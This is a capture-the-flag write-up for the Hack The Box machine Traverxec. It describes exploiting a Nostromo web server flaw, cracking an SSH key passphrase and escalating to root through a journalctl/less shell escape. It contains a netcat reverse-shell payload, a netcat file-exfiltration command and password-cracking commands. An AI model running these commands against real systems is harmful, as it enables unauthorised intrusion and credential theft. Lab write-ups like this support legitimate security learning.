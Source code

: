 ```yaml
---
layout: default
---
```

## Traverxec
###### Retired April 2020
![](https://www.hackthebox.eu/storage/avatars/6ce5fcdd63f07a5ce91d0b8e4579b163.png)

Life is short. [Need to skip to root?](#root)

This was a machine with secrets everywhere. A hidden (,hidden?) directory and a tricky sizing trick with privesc to root.

The IP has been added to my ```/etc/hosts``` file as traverxec.htb. Starting with nmap, I did a quick portscan of all ports and got back hits on 22 and 80. A full scan of those ports revealed:

![](https://yaboygmoney.github.io/htb/images/traverxec/1.png)

The results show that port 80 is running Nostromo version 1.9.6. Some quick recon on the version shows that the particular version provides remote code execution (RCE) capability by exploiting a LFI vulnerability. There are several ways to exploit this vulnerability: manually is pretty easy via web requests, a [python script](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py) is easier, and [Metasploit has a module](https://www.exploit-db.com/exploits/47573) that's easiest. I opted for the python exploit.

To get a shell, I needed a listener ready:

```bash
nc -nvlp 1234
```

and to make the call using the PoC code:

```bash
python exploit.py traverxec.htb 80 "nc 10.10.14.31 1234 -e /bin/bash"
```

![](https://yaboygmoney.github.io/htb/images/traverxec/shell.png)

The shell is created and I can see that I landed on the machine as www-data.

Initial enumeration didn't show much for any binary/SUID exploitation for privesc, but looking through the Nostromo configuration revealed an .htpasswd file with a hash inside. I cracked it and revealed a password ```Nowonly4me```. It didn't work for SSH as David, and it turns out I didn't really end up needing it at all. 

![](https://yaboygmoney.github.io/htb/images/traverxec/5.png)

The password was for a basic authentication prompt and would have been needed if I did the upcoming steps through a browser. Moving on.

The Nostromo configuration file located at ```/var/nostromo/conf/nhttpd.conf``` provided the necessary information for privesc to david. In the ```#BASIC AUTHENTICATION``` section, we can see that while optional, it is configured. We have the password from the .htpasswd file already. 

![](https://yaboygmoney.github.io/htb/images/traverxec/4.png)

Looking further down the file is the ```HOMEDIRS``` configuration. Reading the [documentation for nhttpd](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), I learned that it's possible to share home directories for users with a leading ```~``` character followed by their name, for example ```http://traverxec.htb/~david/```.

The configuration also shows that it's possible to provide a ```public_www``` directory. I didn't have permission to list directories from David's home directory, but I could go straight to ```/home/david/public_www``` directory. 

![](https://yaboygmoney.github.io/htb/images/traverxec/6.png)

I shipped the compressed file back to my local machine using a netcat file transfer:

```bash
nc -w 3 10.10.14.31 1235 < backup-ssh-identity-files.tgz # On remote machine
nc -nvlp 1235 > ssh.tgz # On local machine
```

![](https://yaboygmoney.github.io/htb/images/traverxec/7.png)

and decompressed the contents. Inside was David's private SSH key.

![](https://yaboygmoney.github.io/htb/images/traverxec/8.png)

I tried to SSH with just the key, but SSH still wanted a password, and not the password cracked from earlier. To get the password, we can to carve it out of the key file.

I ran the key through ```ssh2john``` and kicked it out to a text file that ```john``` can work with. From there, I can run the text file through ```john```.

```bash
/usr/share/john/ssh2john.py home/david/.ssh/id_rsa > ssh2johnhash.txt
john ssh2johnhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After a few seconds the hash is cracked and I'm given the password ```hunter```.

![](https://yaboygmoney.github.io/htb/images/traverxec/9.png)

Now I can SSH using the same command as earlier, but provide the password this time and I'm in.

```bash
ssh -i home/david/.ssh/id_rsa david@traverxec.htb
```

![](https://yaboygmoney.github.io/htb/images/traverxec/10.png)

Now for root.<a name="root"></a>

In david's home directory, there's a ```bin``` directory. One of the files called ```server-stats.sh``` ends with the line ```/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat```. This is our way in. 

![](https://yaboygmoney.github.io/htb/images/traverxec/11.png)

Here's the breakdown:
1. Since David owns this script, we can assume that every line in the script is able to be executed manually outside of the script.
2. The last line is run with root permissions.
3. The ```journalctl``` binary that is run as root actually runs on top of the ```less``` binary. It's possible to drop into a shell from within ```less``` (see [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo)).

So to get a root shell, all I have to do is run

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

But there's a very creative catch. The command prompt MUST be small enough that the entire script cannot be displayed on the screen to actually force the ```less``` binary to be necessary. So the above command should be ran in a tiny command prompt window.

Now I'm in a ```less``` environment. From here just type

```bash
!/bin/bash
```

![](https://yaboygmoney.github.io/htb/images/traverxec/12.png)

and a shell is executed under the context of root.

![](https://media.giphy.com/media/26FPqAHtgCBzKG9mo/giphy.gif)

Thanks for reading.
